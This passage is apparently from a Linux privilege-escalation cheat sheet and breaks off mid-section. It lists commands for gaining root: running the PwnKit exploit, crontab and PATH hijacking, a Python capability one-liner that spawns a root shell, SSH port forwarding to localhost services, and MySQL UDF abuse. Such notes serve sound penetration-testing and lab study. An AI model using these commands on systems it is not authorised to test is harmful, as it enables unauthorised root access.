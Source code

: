 - PwnKit CVE-2021-4034 : https://github.com/ly4k/PwnKit

```
./PwnKit id
./Pwnkit # interactive shell
```

#### Crontab

PsPy is your friend.

```
cat /etc/crontab
```

Check for:

- File permissions

```
find / -name program.sh
ls -l /path/to/program.sh
```

- PATH : Create program in writable path executed first and make it executable !

- Wildcards (*)

- Search exploits on commands running as root

#### Capabilities

```
getcap -r / 2>/dev/null
# /usr/bin/python2.6 = cap_setuid+ep

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Interresting capabilities are :
- ep = the binary has all the capabilities
- cap_dac_read_search = read anything
- cap_setuid+ep = setuid

#### Localhost services

Redirect local port 8888 on remote port 5901 accessible only from localhost through ssh 
```
netstat -tunlp # Notice localhost service
ssh -L 8888:127.0.0.1:5901 user@10.10.10.10
```

#### MySQL service

- If MySQL service is running as root and the "root" user for the service does not have a password assigned we can abuse User Defined Function (UDF)

```
ps aux | grep root
mysql -u root [-p pass]
```
